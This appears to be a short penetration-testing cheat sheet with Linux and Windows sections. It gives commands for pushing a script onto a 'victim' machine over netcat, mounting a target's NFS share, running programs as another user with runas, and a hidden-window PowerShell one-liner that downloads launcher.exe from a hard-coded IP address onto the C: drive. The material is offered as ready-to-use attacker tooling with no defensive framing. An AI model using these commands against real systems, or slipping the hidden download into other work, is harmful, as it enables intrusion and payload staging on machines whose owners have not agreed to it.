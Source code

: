 > Section for specific knowledge concerning operating systems and special cases

## Linux

### Copy if no web access (Transfer via simple netcat)

```bash
# copy via netcat
nc -l -p 1234 > script.sh # on victim
nc -w 3 <victimIP> 1234 < script.sh # from attacker
```

### Mount nfs share

```bash
sudo mkdir /mnt/nfsshare
sudo mount -t nfs <targetIP>:/home/<remoteShareName> /mnt/nfsshare -o nolock
```

## Windows

### Run programs in another user context within shell

Requirements
- User and password

Run an application in a shell without graphical interface if message `this program cannot be run in DOS mode` appears

```powershell
cmd> runas /user:<username> app.exe
```

### Download a file from cli

Requirements
- powershell installed

```cmd
powershell.exe -nop -w hidden -c "$client = new-object System.Net.WebClient;$client.DownloadFile('http://175.12.80.10:8000/launcher.exe','C:\launcher.exe')"
```
